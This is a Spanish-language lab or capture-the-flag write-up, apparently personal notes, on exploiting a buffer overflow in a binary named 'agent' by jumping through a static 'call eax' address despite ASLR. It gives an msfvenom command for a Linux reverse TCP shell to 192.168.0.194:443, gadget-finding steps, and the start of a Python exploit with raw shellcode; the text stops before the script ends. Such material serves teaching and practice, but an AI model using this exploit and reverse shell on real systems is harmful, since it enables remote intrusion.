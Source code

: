Para realizar esto primero tenemos que crear nuestro Shellcode

- ``msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.194 LPORT=443 -f c -b '\x00\x0a\x0d' ``

Cabe destacar que este Shellcode **tiene un tamaño de Bytes fijado**, esto lo podemos ver en el Output del ``msfvenom``

![[VM 31.png]]

Y recordemos que con el Fuzzing que hicimos previamente el soporte máximo que tiene el binario en el campo vulnerable es de *168 Bytes* por lo tanto **no llegaríamos a desbordar el buffer**. Para solucionar esto se emplea un "relleno" para **poder llegar al máximo soportado** es decir a los 168 Bytes, de no ser así la explotación no funcionaría.

------

¿Por qué vamos a hacer esto a pesar de que el ASLR esté activado? Porque no vamos a utilizar la dirección del EAX dinámica, si no que vamos a utilizar la dirección del **EAX contenida en el propio binario** que es **ESTATICA**.

Lo primero que tenemos que hacer es **buscar el Opcode** de ``call eax`` por lo tanto usamos la herramienta propia de Metasploit con lo siguiente

- ``/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb``

Ahora solo queda pasarle **``call eax``**

![[VM 32.png]]

Una vez tengamos el **Opcode** de ``call eax`` para conseguir su **dirección estática** podemos aplicar un ``objdump -d agent | grep -i "ff d0"`` el parámetro ``-d`` viene de **descompilar**.

![[VM 33.png]]

Con este valor ahora si podríamos realizar nuestro script, ya que será a la dirección ``0x8048563`` a la que apuntaremos con nuestro **EIP** para poder saltar al **EAX** y que ahí se nos interprete nuestro **Shellcode** que nos brinde la **Reverse Shell**.
Todo esto será posible gracias a que vamos a utilizar la dirección estática de EAX y no la dinámica.

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

from struct import pack
import socket

shellcode = (b"\xda\xda\xd9\x74\x24\xf4\xbd\x7d\xa1\x61\x62\x5b\x2b\xc9"
b"\xb1\x12\x83\xc3\x04\x31\x6b\x13\x03\x16\xb2\x83\x97\xd9"
b"\x6f\xb4\xbb\x4a\xd3\x68\x56\x6e\x5a\x6f\x16\x08\x91\xf0"
b"\xc4\x8d\x99\xce\x27\xad\x93\x49\x41\xc5\xe3\x02\xb1\xd7"
b"\x8c\x50\xb2\xd6\xf7\xdc\x53\x68\x61\x8f\xc2\xdb\xdd\x2c"
b"\x6c\x3a\xec\xb3\x3c\xd4\x81\x9c\xb3\x4c\x36\xcc\x1c\xee"
b"\xaf\x9b\x80\xbc\x7c\x15\xa7\xf0\x88\xe8\xa8")

offset = 168

#------------------------------------------------------

# Cargamos directamente el Shellcode ya que EAX apuntara directamente al inicio de nuestra cadena
# Cabe destacar que en la primera pasada el programa no interpretara el Shellcode. Es recien cuando se produzca el Buffer Overflow que se aplicara nuestra llamada al "call EAX" y recien ahí al caer directamente en el EAX se nos interpretara.

```